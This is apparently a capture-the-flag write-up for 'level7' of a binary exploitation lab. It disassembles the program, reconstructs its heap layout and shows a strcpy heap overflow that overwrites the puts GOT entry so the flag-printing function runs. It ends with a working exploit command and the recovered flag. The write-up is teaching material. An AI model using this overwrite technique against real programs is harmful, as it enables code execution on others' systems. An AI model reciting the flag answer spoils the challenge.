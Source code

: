 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level6](../level6/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level8 →](../level8/solution.md)
</span>
</span>

level7
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level7

objdump -M intel -d "$EXECUTABLE"
```

Let's look at the main function:
```nasm
08048521 <main>:
 8048521:	55                   	push   ebp
 8048522:	89 e5                	mov    ebp,esp
 8048524:	83 e4 f0             	and    esp,0xfffffff0
 8048527:	83 ec 20             	sub    esp,0x20
...
```

There are 4 calls to malloc. Each one has a size of 8 bytes.
I'll refer to them as block A, B, C and D.
```nasm
...
A:
 804852a:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 8048531:	e8 ba fe ff ff       	call   80483f0 <malloc@plt>
 8048536:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 804853a:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 804853e:	c7 00 01 00 00 00    	mov    DWORD PTR [eax],0x1
B:
 8048544:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 804854b:	e8 a0 fe ff ff       	call   80483f0 <malloc@plt>
 8048550:	89 c2                	mov    edx,eax
 8048552:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 8048556:	89 50 04             	mov    DWORD PTR [eax+0x4],edx
C:
 8048559:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 8048560:	e8 8b fe ff ff       	call   80483f0 <malloc@plt>
 8048565:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 8048569:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 804856d:	c7 00 02 00 00 00    	mov    DWORD PTR [eax],0x2
D:
 8048573:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 804857a:	e8 71 fe ff ff       	call   80483f0 <malloc@plt>
 804857f:	89 c2                	mov    edx,eax
 8048581:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 8048585:	89 50 04             	mov    DWORD PTR [eax+0x4],edx
...
```

The pointers to block A and C are stored at esp + 0x1c and esp + 0x18 respectively.
On the other hand, the pointers to block B and D are stored inside of block A and C respectively at an offset of 4.
```c
A:
[esp + 0x1c] = malloc(8);
[[esp + 0x1c]] = 1;

B:
[[esp + 0x1c] + 0x4] = malloc(8);

C:
[esp + 0x18] = malloc(8);
[[esp + 0x18]] = 2;

D:
[[esp + 0x18] + 0x4] = malloc(8);
```

Afterwards, the content of the strings at [[ebp+0xc] + 0x4] and [[ebp+0xc] + 0x8] is copied to block B and D respectively.
```nasm
...
 8048588:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 804858b:	83 c0 04             	add    eax,0x4
 804858e:	8b 00                	mov    eax,DWORD PTR [eax]
 8048590:	89 c2                	mov    edx,eax

 8048592:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 8048596:	8b 40 04             	mov    eax,DWORD PTR [eax+0x4]

 8048599:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 804859d:	89 04 24             	mov    DWORD PTR [esp],eax
 80485a0:	e8 3b fe ff ff       	call   80483e0 <strcpy@plt>

 80485a5:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 80485a8:	83 c0 08             	add    eax,0x8
 80485ab:	8b 00                	mov    eax,DWORD PTR [eax]
 80485ad:	89 c2                	mov    edx,eax

 80485af:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80485b3:	8b 40 04             	mov    eax,DWORD PTR [eax+0x4]

 80485b6:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80485ba:	89 04 24             	mov    DWORD PTR [esp],eax
 80485bd:	e8 1e fe ff ff       	call   80483e0 <strcpy@plt>
...
```

[ebp+0xc] is the location of the execution arguments array, so [[ebp+0xc] + 0x4] and [[ebp+0xc] + 0x8] correspond to the 1st and 2nd arguments respectively.

In c, the procedure would look like this:
```c
void **A = malloc(8);
void *B = malloc(8);
void **C = malloc(8);
void *D = malloc(8);

A[0] = 1;
A[1] = B;

C[0] = 2;
C[1] = D;

strcpy(A[1], av[1]); // A[1] == B
strcpy(C[1], av[2]); // C[1] == D
```

Lastly, the file containing the flag is opened in read-only mode and loaded into a buffer at 0x8049960. There also is a call to puts, but it simply prints "~~".
```nasm
 80485c2:	ba e9 86 04 08       	mov    edx,0x80486e9				; "r"
 80485c7:	b8 eb 86 04 08       	mov    eax,0x80486eb				; "/home/user/level8/.pass"
 80485cc:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80485d0:	89 04 24             	mov    DWORD PTR [esp],eax
 80485d3:	e8 58 fe ff ff       	call   8048430 <fopen@plt>
 80485d8:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80485dc:	c7 44 24 04 44 00 00 	mov    DWORD PTR [esp+0x4],0x44
 80485e3:	00
 80485e4:	c7 04 24 60 99 04 08 	mov    DWORD PTR [esp],0x8049960
 80485eb:	e8 d0 fd ff ff       	call   80483c0 <fgets@plt>
 80485f0:	c7 04 24 03 87 04 08 	mov    DWORD PTR [esp],0x8048703	; "~~"
 80485f7:	e8 04 fe ff ff       	call   8048400 <puts@plt>
 80485fc:	b8 00 00 00 00       	mov    eax,0x0
 8048601:	c9                   	leave
 8048602:	c3                   	ret
```
Note: To find strings corresponding to each memory location, you can use readelf:
```sh
readelf --hex-dump=.rodata ./level7
```

There also is a function m that will print the buffer containing the flag, as well as the current time.
```nasm
080484f4 <m>:
 80484f4:	55						push   ebp
 80484f5:	89 e5					mov    ebp,esp
 80484f7:	83 ec 18				sub    esp,0x18
 80484fa:	c7 04 24 00 00 00 00	mov    DWORD PTR [esp],0x0
 8048501:	e8 ca fe ff ff			call   80483d0 <time@plt>
 8048506:	ba e0 86 04 08			mov    edx,0x80486e0
 804850b:	89 44 24 08				mov    DWORD PTR [esp+0x8],eax
 804850f:	c7 44 24 04 60 99 04	mov    DWORD PTR [esp+0x4],0x8049960
 8048516:	08
 8048517:	89 14 24				mov    DWORD PTR [esp],edx
 804851a:	e8 91 fe ff ff			call   80483b0 <printf@plt>
 804851f:	c9						leave
 8048520:	c3						ret
```

Exploitation
------------

We need to jump onto the m function after the fgets call.
Because the executable is dynamically linked and calls the puts stub after reading the flag, we could override the function pointer with the address of the m function.
```nasm
08048400 <puts@plt>:
 8048400:	ff 25 28 99 04 08		jmp    DWORD PTR ds:0x8049928
 8048406:	68 28 00 00 00			push   0x28
 804840b:	e9 90 ff ff ff			jmp    80483a0 <_init+0x34>
```

To do so we can exploit strcpy again, because no length checks are performed on the input strings.
```c
strcpy(B, av[1]);
strcpy(C[1], av[2]);
```
The memory layout looks like this:
|   A  |      |   B  |      |   C  |      |   D  |      |
|:----:|------|:----:|------|:----:|------|:----:|------|
| 0x00 | 0x08 | 0x10 | 0x18 | 0x20 | 0x28 | 0x30 | 0x38 |

On 32 bits systems with 4 byte size_t, the libc's minimal allocation size is 16 bytes and contains 4 bytes of overhead, and padding if necessary.
That means that we should have 8 bytes of space between our blocks.

If we copy the address of the puts function pointer into C[1], we can overwrite it with the content of the second argument.
To do so, we will need to supply a string long enough to reach C[1], starting at B.

```c
&C[1] - B = 0x24 - 0x10 = 0x14 = 20
```

Now, let's try to override the puts stub function pointer:
```sh
./level7 "$(printf %.0sA {1..20})"$'\x28\x99\x04\x08' $'\xf4\x84\x04\x08'
```

Bingo!
```sh
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1648054124
```
